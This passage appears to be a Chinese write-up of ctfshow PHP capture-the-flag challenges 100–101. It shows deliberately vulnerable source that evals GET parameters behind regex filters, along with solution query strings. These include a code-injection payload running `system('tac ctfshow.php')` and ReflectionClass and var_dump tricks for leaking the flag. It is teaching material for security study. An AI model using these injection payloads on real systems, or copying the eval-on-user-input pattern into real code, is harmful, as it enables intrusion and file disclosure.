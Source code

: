 

解法1：过滤比较简单，构造闭合rce

```
?v1=1&v2=?><?= system('tac ctfshow.php')?>&v3=;
```

解法2：提示flag在类ctfshow里，并且已经new给变量`$ctfshow`了
可以直接输出`$ctfshow`的值：

```
?v1=1&v2=var_dump($ctfshow)?>&v3=;
```

解法3：反射类`ReflectionClass`的使用 [PHP: ReflectionClass - Manual](https://www.php.net/manual/zh/class.reflectionclass.php)

```
?v1=1&v2=echo new ReflectionClass&v3=;
```



## 101-ReflectionClass

> hint：修补100题非预期,替换0x2d为-,最后一位需要爆破16次，题目给的flag少一位

```php
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
```

添加了正则规则，没法rce了

反射类`ReflectionClass`的使用 [PHP: ReflectionClass - Manual](https://www.php.net/manual/zh/class.reflectionclass.php)

```
?v1=1&v2=echo new ReflectionClass&v3=;
```



## 102、103-hex2bin
